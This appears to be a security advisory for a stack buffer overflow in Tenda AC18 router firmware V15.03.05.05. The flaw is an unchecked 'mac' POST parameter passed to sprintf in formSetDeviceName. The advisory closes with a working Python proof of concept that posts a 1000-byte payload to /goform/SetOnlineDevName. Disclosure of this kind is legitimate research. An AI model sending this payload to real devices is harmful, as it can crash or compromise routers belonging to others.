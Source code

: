 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v8` variable receives the `mac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v8` can trigger this security vulnerability.

![image-20240306171243036](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171243036.png)

![image-20240306171344896](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171344896.png)

![image-20240306171258485](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171258485.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"mac": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306171400963](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171400963.png)
